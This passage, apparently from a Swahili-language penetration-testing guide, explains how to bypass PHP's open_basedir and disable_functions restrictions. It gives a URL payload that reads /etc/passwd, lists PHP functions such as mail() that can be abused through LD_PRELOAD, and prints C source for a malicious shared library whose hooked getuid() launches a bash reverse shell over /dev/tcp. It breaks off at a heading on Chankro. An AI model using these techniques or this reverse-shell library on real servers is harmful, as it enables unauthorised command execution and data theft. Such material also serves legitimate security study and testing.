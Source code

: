 Pia kumbuka **mstari wa 324 ulio na maoni**, unaweza kuondoa maoni na **payload itajihusisha moja kwa moja na URL iliyotolewa na kutekeleza msimbo wa PHP** ulio ndani yake.\
Fikia tu `http://vulnerable.com:1337/l.php?cmd=echo file_get_contents('/etc/passwd');` ili kupata maudhui ya faili ya `/etc/passwd`.

> [!WARNING]
> Unaweza kufikiria kwamba kwa njia ile ile tulivyo badilisha mipangilio ya `open_basedir` tunaweza **kubadilisha `disable_functions`**. Vizuri, jaribu, lakini haitafanya kazi, kwa sababu **`disable_functions` inaweza tu kuwekwa katika faili ya mipangilio ya `.ini` ya php** na mabadiliko unayofanya kwa kutumia PHP_VALUE hayatakuwa na ufanisi kwenye mipangilio hii maalum.

## disable_functions Bypass

Ikiwa unafanikiwa kuwa na msimbo wa PHP ukitekelezwa ndani ya mashine, huenda ukataka kwenda kwenye kiwango kingine na **kutekeleza amri za mfumo wa kiholela**. Katika hali hii ni kawaida kugundua kwamba nyingi au zote za **functions** za PHP zinazoruhusu **kutekeleza amri za mfumo zimezuiliwa** katika **`disable_functions`.**\
Hivyo, hebu tuone jinsi unavyoweza kupita kizuizi hiki (ikiwa unaweza)

### Automatic bypass discovery

Unaweza kutumia chombo [https://github.com/teambi0s/dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) na kitakuonyesha ni ipi function (ikiwa ipo) unaweza kutumia ili **kupita** **`disable_functions`**.

### Bypassing using other system functions

Rudi tu mwanzo wa ukurasa huu na **angalia ikiwa yoyote ya functions zinazotekeleza amri haijazuiliwa na inapatikana katika mazingira**. Ikiwa unapata moja tu kati yao, utaweza kuitumia kutekeleza amri za mfumo wa kiholela.

### LD_PRELOAD bypass

Inajulikana kwamba baadhi ya functions katika PHP kama `mail()` zitakuwa **zinatekeleza binaries ndani ya mfumo**. Kwa hivyo, unaweza kuzitumia vibaya kwa kutumia variable ya mazingira `LD_PRELOAD` ili kufanya zipakue maktaba ya kiholela ambayo inaweza kutekeleza chochote.

#### Functions that can be used to bypass disable_functions with LD_PRELOAD

- **`mail`**
- **`mb_send_mail`**: Inafanya kazi vizuri wakati moduli ya `php-mbstring` imewekwa.
- **`imap_mail`**: Inafanya kazi ikiwa moduli ya `php-imap` ipo.
- **`libvirt_connect`**: Inahitaji moduli ya `php-libvirt-php`.
- **`gnupg_init`**: Inaweza kutumika ikiwa moduli ya `php-gnupg` imewekwa.
- **`new imagick()`**: Darasa hili linaweza kutumika vibaya ili kupita vizuizi. Mbinu za kina za unyakuzi zinaweza kupatikana katika [**andiko hapa**](https://blog.bi0s.in/2019/10/23/Web/BSidesDelhi19-evalme/).

Unaweza [**kupata hapa**](https://github.com/tarunkant/fuzzphunc/blob/master/lazyFuzzer.py) skripti ya fuzzing ambayo ilitumika kupata hizo functions.

Hapa kuna maktaba unaweza kuunda ili kutumia variable ya mazingira ya `LD_PRELOAD`:
```php
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>

uid_t getuid(void){
unsetenv("LD_PRELOAD");
system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
return 1;
}
```
#### Bypass using Chankro